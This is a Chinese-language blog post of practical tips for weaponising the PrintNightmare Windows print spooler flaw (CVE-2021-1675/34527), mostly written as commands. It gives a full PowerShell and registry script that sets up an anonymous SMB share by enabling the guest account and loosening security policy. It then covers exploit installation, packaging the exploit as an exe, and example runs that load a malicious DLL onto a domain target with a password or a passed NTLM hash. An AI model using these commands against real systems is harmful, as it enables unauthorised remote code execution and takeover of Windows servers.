```yaml
---
title: PrintNightmare 实战利用Tips
date: 2022-11-13 3:34:50
categories: 
- 漏洞
tags:
- 漏洞复现
- PrintNightmare
- CVE-2021-1675
- CVE-2021-34527
- 武器化
---
```

# **概述**

**CVE-2021-1675 / CVE-2021-34527 这两个洞本质上就是一个洞，只是因为修复的问题分配了两个编号。具体的漏洞分析就不赘述了，很早就有人发过，没必要炒冷饭，这里只总结下实际使用时可能出现的问题，以及很多poc中不会提到的细节**

## 复现攻击环境

### 注意事项

#### 1.目标机器为域内Windows Server机器时，攻击机必须为同一域内的机器；目标机器为非域环境Windows Server机器时，攻击机器为目标机器可以访问到的另一机器即可

> 加入域后的Windows系统访问外部资源会携带已登录的域用户凭证，所以未加入域且未提前指定凭据的的SMB就无法访问。因此攻击域内机器有此限制

#### 2.攻击机器为Windows Server 2019及更高版本时，需要执行 `Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol`并重启去开启SMBv1，否则有可能出现rpc_s_access_denied的问题，攻击机器为2016及更低版本的系统时，可以直接使用 `Set-SmbServerConfiguration -EnableSMB1Protocol $true`开启SMBv1的支持

## 步骤

### 1.准备payload

在攻击机器创建C:\share文件夹，并将dll放入其中（此路径可根据需求修改，修改后下一步脚本自行对应修改）

### 2.开启SMB匿名共享

```powershell

#修改路径权限，使所有人可读
icacls C:\share\ /T /grant Anonymous` logon:F
icacls C:\share\ /T /grant Everyone:F
#创建名称为share路径为C:\share的SMB共享
New-SmbShare -Path C:\share -Name share -FullAccess 'ANONYMOUS LOGON','Everyone'
#启用guest用户
net user guest /active:yes
#覆盖已有的NullSessionPipes配置
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
#设置可以匿名访问共享
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
#设置Everyone权限包含匿名登录用户
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
#设置任何用户都可以通过网络获取本机的信息
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
#提取本地安全组策略
secedit /export /cfg gp.inf /quiet
#修改组策略中的指定权限
(Get-Content gp.inf) -replace "SeDenyNetworkLogonRight = Guest","SeDenyNetworkLogonRight = " | Set-Content "gp.inf"
#导入本地安全组策略
secedit /configure /db gp.sdb /cfg gp.inf /quiet
#更新本地安全组策略
CMD.EXE /C "gpupdate/force"
#清理文件
CMD.EXE /C "del gp.inf"
CMD.EXE /C "del gp.sdb"
```

注：此脚本修改自[Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

### 3.准备exp

推荐exp为[CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)，主要优势在于可以使用hash进行攻击，现在越来越难搞到密码了，hash的场景更多

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
pip3 install six pycryptodomex pyasn1
```

如果目标机器不存在python环境，可以在自己机器执行上诉命令，再打包成exe使用

```bash
pip3 install pyinstaller
pyinstaller --clean --onefile CVE-2021-1675.py
```

### 4.执行

示例：


```bash
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.py hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.py hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.py domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.py domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.py domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.py domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"
```
